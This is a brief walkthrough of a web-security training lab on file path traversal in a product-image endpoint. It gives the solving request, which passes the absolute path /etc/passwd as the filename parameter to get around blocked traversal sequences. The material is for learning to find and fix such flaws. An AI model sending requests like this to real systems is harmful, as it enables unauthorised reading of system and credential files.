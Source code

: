 # File path traversal, traversal sequences blocked with absolute path bypass

## This lab contains a [file path traversal] vulnerability in the display of product images.

## The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

## To solve the lab, retrieve the contents of the `/etc/passwd` file.

### step1

## https://0a8800f7036619eac0a62721007c000c.web-security-academy.net/image?filename=65.jpg

### step2

## https://0a8800f7036619eac0a62721007c000c.web-security-academy.net/image?filename=/etc/passwd
